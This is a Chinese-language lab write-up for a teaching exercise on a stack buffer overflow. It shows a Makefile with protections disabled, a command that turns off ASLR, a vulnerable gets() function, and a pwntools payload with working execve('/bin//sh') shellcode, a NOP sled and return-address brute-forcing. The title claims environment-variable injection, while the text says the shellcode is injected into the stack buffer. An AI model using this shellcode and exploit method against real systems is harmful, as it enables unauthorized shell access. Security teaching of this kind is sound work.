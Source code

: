 # Buffer Overflow 实验 2 - 环境变量Shellcode注入

## 一、实验目的

- 理解缓冲区溢出漏洞的本质及其危害。
- 掌握基于shellcode注入的攻击方式，理解NOP滑板、返回地址覆盖等技术细节。
- 熟悉常见的系统防护机制（如PIE、NX、ASLR等）及其绕过思路。
- 学会使用pwntools等自动化工具进行漏洞利用。

本实验演示了一个基于环境变量的shellcode注入攻击。通过将shellcode放入环境变量，并利用栈溢出漏洞跳转到环境变量中的shellcode来获取shell。

## 环境设置

- 操作系统：Ubuntu 22.04
- 编译器：GCC
- 调试工具：GDB, pwndbg
- 漏洞利用框架：pwntools

## 三、实验原理

缓冲区溢出是由于程序未对用户输入长度进行检查，导致攻击者可以覆盖栈上的返回地址，从而劫持程序流程。攻击者可将shellcode注入内存（如缓冲区、环境变量等），并通过覆盖返回地址使程序跳转到shellcode处执行，从而获得shell权限。

本实验采用"猜测buffer地址+NOP滑板+shellcode"方式，利用暴力遍历的方式提高攻击成功率。

## 实验步骤

1. 编译漏洞程序：

查看Makefile内容如下：

```makefile
CC = gcc
CFLAGS = -fno-stack-protector -z execstack
TARGET = vulnerable

all: $(TARGET)

$(TARGET): $(TARGET).c
	$(CC) $(CFLAGS) -o $(TARGET) $(TARGET).c

clean:
	rm -f $(TARGET) 
```

- `-fno-stack-protector` 关闭栈溢出保护
- `-z execstack` 允许栈可执行

编译命令：

```bash
make
```

2. 关闭地址随机化（ASLR）

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

3. 运行exploit脚本

```bash
python3 exploit.py
```

4. 观察攻击效果

- 成功时会获得shell，输入`id`命令可见uid等信息。

## 五、漏洞分析与关键代码讲解

### 1. 漏洞程序（vulnerable.c）分析

```c
void vulnerable_function() {
    char buffer[128];
    printf("buffer is: %p\n", buffer);
    gets(buffer);  // 不安全，允许任意长度输入
}
```
- `gets`函数未检查输入长度，允许覆盖返回地址。
- `buffer is: %p`输出buffer地址，便于调试和攻击。

### 2. 利用脚本（exploit.py）分析

- 利用pwntools自动化攻击流程。
- 构造payload：`NOP滑板 + shellcode + 填充 + 返回地址`
- 暴力遍历可能的返回地址，提高命中概率。

关键代码片段：

```python
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
nop_sled = b"\x90" * 64
padding = b"A" * (128 + 8 - len(nop_sled) - len(shellcode))
ret_addr = p64(addr + len(nop_sled))
payload = nop_sled + shellcode + padding + ret_addr
```

- shellcode为64位Linux下常用的`execve("/bin//sh")`。
- NOP滑板用于容忍地址猜测误差。
- padding用于填充至返回地址。
- ret_addr为猜测的shellcode地址。

### 3. 攻击流程

1. 启动目标程序，读取buffer地址（用于调试）。
2. 构造payload，覆盖返回地址为shellcode位置。
3. 发送payload，尝试获取shell。
4. 自动化遍历地址区间，直到攻击成功。

## 六、防护机制说明

- **PIE（位置无关可执行文件）**：启用，导致代码段基址随机化。
- **栈保护**：已关闭（-fno-stack-protector）。
- **不可执行栈（NX）**：已关闭（-z execstack）。
- **地址随机化（ASLR）**：已关闭（通过系统设置）。

## 七、实验结果

- 成功获得shell，执行`id`命令输出如下：

```
uid=1000(user) gid=1000(user) groups=1000(user)
```

（建议插入shell界面截图）

## 八、常见问题与解决

1. **攻击失败怎么办？**
   - 检查地址范围是否正确，适当扩大或缩小。
   - 检查系统保护机制是否关闭。
   - 检查shellcode是否正确，payload格式是否有误。

2. **为什么要用NOP滑板？**
   - 增加shellcode命中的概率，容忍地址猜测的误差。

3. **环境变量注入和直接栈注入有何区别？**
   - 环境变量注入可以绕过部分地址随机化，且空间更大。本实验实际是将shellcode直接注入栈缓冲区。

4. **如何调试shellcode地址？**
   - 可用GDB断点、打印buffer地址等方式辅助调试。

## 九、思考题

1. 如果开启了ASLR（地址随机化），本实验还能成功吗？为什么？
2. 如果开启了栈不可执行（NX），本实验还能成功吗？如何绕过？
3. PIE对本实验的影响是什么？如何绕过PIE保护？
4. 如何通过GDB调试定位shellcode的实际地址？
5. 如果gets换成fgets，漏洞是否还存在？为什么？

## 十、实验总结

本实验展示了基于shellcode注入的缓冲区溢出攻击。通过本实验，你应掌握：

- 缓冲区溢出漏洞的利用原理
- shellcode注入的多种方式
- 系统防护机制的作用与绕过思路
- 利用pwntools自动化漏洞利用 